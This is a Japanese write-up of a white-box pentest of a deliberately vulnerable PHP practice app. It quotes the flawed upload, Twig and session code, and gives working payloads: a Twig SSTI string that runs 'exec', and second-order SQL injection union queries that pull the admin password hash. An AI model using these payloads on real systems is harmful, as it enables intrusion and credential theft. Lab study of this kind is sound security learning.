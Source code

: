 <!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**

- [trouble1](#trouble1)
  - [file upload](#file-upload)
  - [SSTI](#ssti)
  - [SQL Injection](#sql-injection)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

# trouble1
https://github.com/TROUBLE-1/White-box-pentesting  

## file upload
以下の`admin/upload.php`でfile uploadの脆弱性がある。  
```php
<html>
<body>

<?php

    if(isset($_REQUEST['upload'])){

	if($_FILES["file"]["error"])
	{
		header("Location: welcome.php");
		die();	
	}

	$notAllowed = array('php','php1','php2','php3','php4','php5','php6','php7','phtml','exe','html','cgi','asp','gif','jpeg','png','vb','inf');

	$splitFileName = explode(".", $_FILES["file"]["name"]);

	$fileExtension = end($splitFileName);

	if(in_array($fileExtension, $notAllowed))
	{
		echo "Please upload a TEXT file";
	}
	else{

		echo "Name: ".$_FILES["file"]["name"];
		echo "<br>Size: ".$_FILES["file"]["size"];
		echo "<br>Temp File: ".$_FILES["file"]["tmp_name"];
		echo "<br>Type: ".$_FILES["file"]["type"];

		move_uploaded_file($_FILES["file"]["tmp_name"], "uploads/".$_FILES["file"]["name"]);
	}
    }

?>

</body>
</html>

```
![image](https://user-images.githubusercontent.com/56021519/112270980-b21ec280-8cbd-11eb-8d31-6188d7853b63.png)  
![image](https://user-images.githubusercontent.com/56021519/112271023-be0a8480-8cbd-11eb-9ade-8ce79aa8dedf.png)  


## SSTI
`render`で検索すると以下のようにtwigが使用されているのでSSTIの可能性  
![image](https://user-images.githubusercontent.com/56021519/112273153-5e61a880-8cc0-11eb-8b91-ae44710b4a4c.png)  
なんかコードがミスっててerrorになるので以下のように編集した。  
```php
<?php
   if (isset($_REQUEST['submit'])) {
       $name=$_REQUEST['name'];
       // include and register Twig auto-loader
       include 'twig/twig/lib/Twig/Autoloader.php';
       Twig_Autoloader::register();
       try {
             // specify where to look for templates
                 $loader = new Twig_Loader_String();  
             // initialize Twig environment
                 $twig = new Twig_Environment($loader);
            // set template variables
            // render template
               $result= $twig->render($name);
               echo "<h2 style='color:white;'>You searched for ". @$result ."</h2>";
       } catch (Exception $e) {
             die ('<h2 style="color:white;">Bad Username</h2>' );
           }
   }
   ?>
```
![image](https://user-images.githubusercontent.com/56021519/112273054-425e0700-8cc0-11eb-9d65-b70dc6478770.png)  

以下で成功！  
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection  
```txt
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```
![image](https://user-images.githubusercontent.com/56021519/112273908-39216a00-8cc1-11eb-9dd6-cb89f5f5c89e.png)  

## SQL Injection
ログを見ると、`BBB'`というユーザー名でRegisterした場合、以下のようにSQLInjectionできることがわかる！  
insertとselectでは違う構文でInjectionする必要があるが、その都度別のユーザー名を作成すれば任意のデータを読みだせる！  
```txt
                    70 Query    INSERT INTO user_log(username, login_date) values ('BBB'', '03/24/2021 04:04:12 am')

                    72 Query    SELECT * FROM user_log WHERE username = 'BBB''
```
`user_log.php`  
`$login_session`に`'`とかがエスケープされてない場合はSQLInjection可能！  
```php
                  if(isset($login_session)) {
               
                       $sql = "SELECT * FROM user_log WHERE username = '$login_session'";   
```
`session.php`  
`$login_session`には`BBB'`が入る！  
登録する前にPHP上では`\'`としてエスケープしていてもDBに登録する際に`'`に戻るので、それを読みだして使うとヤバい。  
```php
<?php
   include('config.php');
   session_start();
   
   $user_check = $_SESSION['login_user'];
   
   $ses_sql = mysqli_query($db,"select username from users where username = '$user_check' ");
   
   $row = mysqli_fetch_array($ses_sql,MYSQLI_ASSOC);
   
   $login_session = $row['username'];

    if(!isset($login_session)){
        header("location: index.php");
    }
?>
```
以下のように二つのユーザー名で作成するとデータを読みだせる。  
べつにinsertの方はやらなくてもよさそう。  
```txt
',version())#
                    81 Query    INSERT INTO user_log(username, login_date) values ('',version())#', '03/24/2021 04:15:11 am')
                    83 Query    SELECT * FROM user_log WHERE username = '',version())#'


' union select 1,2,3#
                    90 Query    INSERT INTO user_log(username, login_date) values ('' union select 1,2,3#', '03/24/2021 04:18:19 am')
                    92 Query    SELECT * FROM user_log WHERE username = '' union select 1,2,3#'
```
![image](https://user-images.githubusercontent.com/56021519/112277693-58ba9180-8cc5-11eb-8050-3ecbb620046d.png)  

以下でpasswordをゲット！  
```txt
' union select 1,2,(select password from admin where id=1)#

                   113 Query    SELECT * FROM user_log WHERE username = '' union select 1,2,(select password from admin where id=1)#'

21ffccddf815587ff8149a8efb1a5d86ac295d19
```

![image](https://user-images.githubusercontent.com/56021519/112279502-56f1cd80-8cc7-11eb-88ae-62be052cb08d.png)  
ログインは以下のようになっているため、`SHA1(CONCAT(password, '$passtoken'))`は計算できる！  
```php
<?php
   include("config.php");
   
   session_start();
   if (isset($_POST['token']))   
   {   
    $_SESSION['token'] = $_POST['token'];   
   }   
    else{
        if (!isset($_SESSION['token']))   
        $_SESSION['token'] = sha1(mt_rand() . microtime(TRUE));
    }
   if($_SERVER["REQUEST_METHOD"] == "POST") {     
      // username and password sent from form 
      if(isset($_POST['username'])){
          $myusername = mysqli_real_escape_string($db,$_POST['username']);
          $mypassword = mysqli_real_escape_string($db,$_POST['form_password_hidden']); 
          $passtoken = $_SESSION['token'];
          $sql = "SELECT id FROM users WHERE username = '$myusername' and SHA1(CONCAT(password, '$passtoken'))='$mypassword'";
```

